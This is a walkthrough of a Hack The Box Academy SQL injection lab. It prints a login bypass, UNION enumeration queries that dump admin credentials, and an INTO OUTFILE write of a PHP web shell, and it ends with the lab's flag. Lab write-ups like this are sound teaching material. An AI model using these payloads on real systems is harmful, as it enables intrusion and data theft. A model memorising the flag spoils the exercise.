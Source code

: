```yaml
---
sticker: lucide//database-backup
---
```


# Skills Assessment - SQL Injection Fundamentals

The company `Inlanefreight` has contracted you to perform a web application assessment against one of their public-facing websites. In light of a recent breach of one of their main competitors, they are particularly concerned with SQL injection vulnerabilities and the damage the discovery and successful exploitation of this attack could do to their public image and bottom line.

They provided a target IP address and no further information about their website. Perform a full assessment of the web application from a "grey box" approach, checking for the existence of SQL injection vulnerabilities.

![image](https://academy.hackthebox.com/storage/modules/33/sqli_skills.png)

Find the vulnerabilities and submit a final flag using the skills we covered to complete this module. Don't forget to think outside the box!

![](gitbook/cybersecurity/images/Pasted%20image%2020250203155825.png)

## Bypassing the login page

***

First thing we face is the login page, we can begin this assessment by checking the source code: `CTRL+U`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250203155958.png)

They haven't forgotten about any credentials or anything related, next thing in mind is trying the most simple SQLI payload:

```
' OR '1'='1'-- -
```

We can try this in the username section:

![](gitbook/cybersecurity/images/Pasted%20image%2020250203160114.png)

To our surprise, we were able to successfully log in:

![](gitbook/cybersecurity/images/Pasted%20image%2020250203160137.png)

## Database enumeration

***

We can go along with our roleplay, this part is not strictly related to the path intended to obtain the flag, but we can take advantage of the roleplay relating the company assessment and enumerate the database a little bit.

We are inside a dashboard panel, nothing seems off but the first thing we can notice is a search bar on the top right of the screen:

![](gitbook/cybersecurity/images/Pasted%20image%2020250203160237.png)

From previous modules, we found the way to enumerate the database, we can try the following:

### Columns number

***

We can enumerate the number of columns by using `ORDER BY`:

```
' order by 1-- -
```

We need to increase the number until we get an error specifying we're off the number of columns, let's automatize this by sending the request to burp's intruder and using it in the following way:

![](gitbook/cybersecurity/images/Pasted%20image%2020250203160644.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020250203160804.png)

After checking the responses we can see the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020250203161026.png)

Error message starts in `6`, so, the number of columns is `5`.

Knowing this, we can start next step.

### Union Injection

***

We can use the following to check if the Union Injection is working:

```sql
cn' UNION select 1,@@version,3,4,5-- -
```

We are using this since we know the number of columns, we'll get the following output:

![](gitbook/cybersecurity/images/Pasted%20image%2020250203161321.png)

So it indeed works, now we can begin to read the database:

```sql
cn' UNION select 1,schema_name,3,4,5 from INFORMATION_SCHEMA.SCHEMATA-- -
```

We get the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020250203161420.png)

The `backup` table seems interesting, we can check it out:

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5 from INFORMATION_SCHEMA.TABLES where table_schema='backup'-- -
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250203161536.png)

We see the following, `admin_bk`, we can enumerate the columns in `admin_bk` using this:

```sql
cn' UNION SELECT 1,COLUMN_NAME,DATA_TYPE,4,5 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA='backup' AND TABLE_NAME='admin_bk'-- -
```

We will see the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020250203162243.png)

Got `username` and `password`, let's read it:

```sql
cn' UNION SELECT 1,username,password,4,5 FROM backup.admin_bk-- -
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250203162347.png)

Got credentials:

```ad-important
`admin`:`Inl@n3_fre1gh7_adm!n`
```

## Now, Let's go for our flag

***

Nice, this was just an scenario to enumerate the risks of this vulnerability on the system, since in the roleplay we are doing an assessment for a company, it was important to check the enumeration part.

For our flag, we can simply try to upload a webshell in the following way.

### Checking our write privileges

***

We can check if we have high privileges with this:

```sql
' UNION SELECT 1, super_priv, 3, 4, 5 FROM mysql.user-- -
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250203163116.png)

We can check we got `Y`, which stands for yes, meaning we have privileges, in order to write files, three conditions must be there:

```ad-important
1. User with `FILE` privilege enabled
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server
```

Let's check if `secure_file_priv` variable is not enabled:

```sql
' UNION SELECT 1, variable_name, variable_value, 4, 5 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250203163254.png)

Value is empty, which means it is not enabled.

We can test writing with the following:

```sql
' union select 1,'file written successfully!',3,4,5 into outfile '/var/www/html/dashboard/proof.txt'-- -
```

If we visit `/proof.txt`, we can check the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020250203163428.png)

We've written successfully, we can now write our webshell in the following way:

```
' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/dashboard/webshell.php'-- -
```

We can confirm it worked by going to:

`http://IP:PORT/dashboard/webshell.php?0=id`

![](gitbook/cybersecurity/images/Pasted%20image%2020250203164153.png)

Let's list the `/` directory: `ls+/`

![](gitbook/cybersecurity/images/Pasted%20image%2020250203164320.png)

We can see the flag, we can simply read it by using `cat+/flag_cae1dadcd174.txt`

![](gitbook/cybersecurity/images/Pasted%20image%2020250203164435.png)

Got our flag: `528d6d9cedc2c7aab146ef226e918396`

![](gitbook/cybersecurity/images/Pasted%20image%2020250203164504.png)
